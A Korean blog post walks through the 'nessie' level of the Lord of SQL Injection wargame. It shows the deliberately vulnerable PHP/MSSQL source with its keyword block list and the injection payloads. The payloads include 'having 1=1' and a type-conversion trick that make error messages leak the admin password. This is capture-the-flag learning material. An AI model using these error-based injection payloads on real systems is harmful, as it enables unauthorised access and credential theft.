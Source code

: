 ```yaml
---
title: "[Lord of SQL Injection] LoS - nessie 문제풀이"
date: 2019-07-05
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


이번 문제의 이름은 `nessie`이다.
이제 `SQLite`가 끝나고 `MSSQL`에서의 `SQL Injection` 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id from prob_nessie where id='' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect();
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select id from prob_nessie where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  sqlsrv_query($db,$query);
  if(sqlsrv_errors()) exit(mssql_error(sqlsrv_errors()));

  $query = "select pw from prob_nessie where id='admin'"; 
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("nessie"); 
  highlight_file(__FILE__);
?>
```

문제를 풀기 위해서는 `id`가 `admin`인 행의 `pw`를 구해야 한다.
`MSSQL`은 처음이라 인터넷에 검색을 해 보니, `MSSQL`에서 쿼리 오류 시 출력 해 주는 오류 구문을 가지고 `Error Based SQL Injection`을 하는 것 같다.
그래서 가장 기본적으로 사용하는 `having`을 사용하기 위해 아래와 같이 입력했다.  

```plain
?id=a' having 1=1 --
```

그럼 완성되는 쿼리는 다음과 같다.  

```mysql
select id from prob_nessie where id='a' having 1=1 --' and pw=''
```

`--`를 삽입했기 때문에 `having 1=1` 뒤의 `'and pw='`는 주석처리가 된다.
즉, `select id from prob_nessie where id='a' having 1=1`만 실행이 되는데, 이 때 오류가 발생한다.
`having` 구문은 `group by`절이 필요한데, 이 `group by` 절을 입력하지 않아 쿼리 오류가 발생하는 것이다.
위의 값을 문제에 입력 해 보면 아래와 같은 오류가 발생한다.  

```plain
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Column 'prob_nessie.id' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
```

친절하게 테이블 명과 컬럼 명을 알려준다.
이런 방식으로 오류를 유발하여 `id`가 `admin`인 행의 `pw`를 유발하면 될 것 같다.
고민을 하다가 `pw` 부분에서 `Type Confusion` 오류를 유발시켜 보았다.
이를 위해 아래와 같이 입력 해 주었다.

```plain
?id=admin&pw=1' or id='admin' and pw=1 -- 
```

완성되는 쿼리는 다음과 같다.  

```mysql
select id from prob_nessie where id='admin' and pw='1' or id='admin' and pw=1 --'
```

앞의 `id='admin' and pw='1'`은 해당사항이 없기 때문에 뒤의 조건으로 넘어 갈 것이고, `id='admin' and pw=1`의 경우, `pw`는 `varchar` 형태이지만 내가 입력 한 값은 `1`, 정수이기 때문에 오류가 발생한다.  

```plain
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Conversion failed when converting the varchar value 'uawe0f9ji34fjkl' to data type int.
```

친절하게 `pw`의 값을 출력 해 주었다.
이제 이 값을 입력하면 문제를 풀 수 있다.  

```plain
?id=admin&pw=uawe0f9ji34fjkl
```

---

```php
------------------------------------------------------------------------------------------------
query : select id from prob_nessie where id='admin' and pw='uawe0f9ji34fjkl'
------------------------------------------------------------------------------------------------

NESSIE Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect();
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select id from prob_nessie where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  sqlsrv_query($db,$query);
  if(sqlsrv_errors()) exit(mssql_error(sqlsrv_errors()));

  $query = "select pw from prob_nessie where id='admin'"; 
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("nessie"); 
  highlight_file(__FILE__);
?>
```

---

```plain
NESSIE Clear!!
```